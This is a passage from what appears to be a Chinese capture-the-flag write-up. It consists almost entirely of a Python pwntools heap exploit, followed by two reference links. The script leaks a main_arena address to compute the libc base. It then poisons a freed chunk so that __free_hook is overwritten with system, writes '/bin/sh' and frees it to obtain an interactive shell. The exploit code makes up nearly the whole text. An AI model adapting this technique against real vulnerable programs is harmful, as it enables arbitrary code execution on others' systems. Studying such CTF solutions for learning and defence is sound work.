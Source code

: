 ```python
log.info('main_arena:'+hex(addr))

base=addr-0x3afc40
log.info('base:'+hex(base))


add(10,0x10)

add(11,0x10)
free(11)
edit(0,p64(0)*2+p64(0x21)+p64(base+e.symbols['__free_hook']-0x8))
add(11,0x10)
add(11,0x10)

edit(11,p64(base+e.symbols['system']))

add(11,0x10)

edit(0,p64(0)*2+p64(0x21)+p64(0)*3+p64(0x21)+'/bin/sh\x00')
gdb.attach(p)
free(11)
p.interactive()
```

## 参考文献

https://www.anquanke.com/post/id/219292

https://www.cnblogs.com/lemon629/p/14327460.html